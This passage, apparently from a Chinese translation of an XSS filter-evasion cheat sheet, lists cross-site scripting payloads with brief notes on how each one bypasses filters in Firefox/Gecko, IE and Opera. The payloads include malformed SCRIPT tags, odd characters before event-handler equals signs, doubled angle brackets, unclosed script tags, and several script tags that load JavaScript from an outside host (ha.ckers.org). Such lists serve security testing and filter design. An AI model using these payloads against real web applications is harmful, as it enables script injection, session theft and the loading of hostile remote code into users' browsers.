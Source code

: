 * * *

### 非字母数字字符xss

Firefox html解析器设定一个非数字字母字符不是有效的在一个html关键字后面，因此这些字符会被视为空白符或是无效的token在html标签之后。这导致很多xss过滤器错误的认为html标签必须是被空白符隔断的。例如，`"<SCRIPT\s" != "<SCRIPT/XSS\s"`:

```
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

和上面的原理相同，我们继续扩大，Gecko渲染引擎允许字母、数字、html封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过xss过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit 提示我有一个小区别在 ie和Gecko 渲染引擎之间是他们仅允许一个一个斜杠在html标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。

```
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

* * *

### 附加的开括号

Franz Sedlmaier提出，利用这个xss向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的javascript错误。

```
<<SCRIPT>alert("XSS");//<</SCRIPT>
```

* * *

### 没关闭的script标签

对于使用了 Gecko渲染引擎的Firefox 和 Netscape 8.1 ，你并不需要常规xss中"></SCRIPT>"这部分。 Firefox会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后html代码会闭合成什么样子。

```
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
```

* * *

### script标签中的协议解析

这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh提出的协议解析绕过。这个xss例子工作在 IE, 使用IE渲染引擎的Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个script标签中。

```
<SCRIPT SRC=//ha.ckers.org/.j>
```

* * *

### 半开的HTML/JavaScript xss向量
